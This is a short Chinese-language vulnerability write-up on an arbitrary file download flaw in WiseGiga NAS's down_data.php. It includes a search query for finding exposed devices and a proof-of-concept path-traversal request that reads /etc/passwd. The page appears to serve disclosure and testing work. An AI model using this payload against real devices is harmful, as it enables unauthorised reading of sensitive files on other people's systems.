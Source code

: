 # WiseGiga NAS down_data.php 任意文件下载漏洞

## 漏洞描述

WISEGIGA NAS down_data.php 存在任意文件下载漏洞，由于 /down_data.php 页面 filename 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

<a-checkbox checked>WiseGiga NAS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="WISEGIGA-NAS"</a-checkbox></br>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1656240215340-595e0191-aa82-407e-972d-a59339dfd28a-20220626184843953.png)

验证POC

```php
/down_data.php?filename=../../../../../../../../../../../../../../etc/passwd
```

![img](../../../.vuepress/public/img/1656240238984-898fa7ef-186c-4376-8a6f-61ab19fa2d0d-20220626184848871.png)